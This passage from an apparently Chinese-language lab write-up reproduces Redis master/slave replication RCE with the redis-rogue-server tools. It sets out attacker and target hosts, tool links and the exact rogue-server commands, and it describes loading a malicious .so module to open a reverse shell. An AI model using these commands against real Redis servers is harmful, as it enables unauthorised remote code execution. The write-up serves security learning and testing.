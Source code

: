Awsome-Redis-Rogue-Server工具下载地址：https://github.com/Testzero-wz/Awsome-Redis-Rogue-Serverredis-rogue-server `Redis 4.x <= 5.x`

工具下载地址：https://github.com/n0b0dyCN/redis-rogue-server



```
这里使用第一个工具

1）启动脚本执行Redis Rogue Server RCE
192.168.59.129 ubuntu 靶机  192.168.59.128 kali

python3 redis_rogue_server.py -rhost 192.168.59.128 -lhost 192.168.59.129

python3 redis_rogue_server.py -rhost 192.168.59.128 -lhost 192.168.59.129 -rport 6380

python3 redis_rogue_server.py -h    # 查看脚本的使用指南
-rhost 远程主机，从机
-lhost 本地主机，主机(Rouge Server)
```

可奇怪了！ 刚开始是没成功的！ 我以为是redis版本不匹配！ 然后试了试！又成功了！ 但是 靶机的redis要求版本在4到5之间！我kali用的是 3！

![image-20210923160607284](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923160607.png)



![image-20210923160804196](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923160804.png)



**我tm知道为什么这么多redis未授权了！ 因为redis服务一重启就没密码了！**



### 4、本地主从复制RCE

#### **0x01 简介**

对于只允许本地连接的Redis服务器，可以通过开启主从模式从远程主机上同步恶意.so文件至本地，接着载入恶意.so文件模块，反弹shell至远程主机

#### **0x02 复现**

1）工具开启Rogue Server

```
python3 redis_rogue_server.py -v -path exp.so

-v      #冗余模式，仅启动Rouge Server模式
-path   #指定.so文件
```



![image-20210923171524520](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923171524.png)

![image-20210923171553071](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923171553.png)
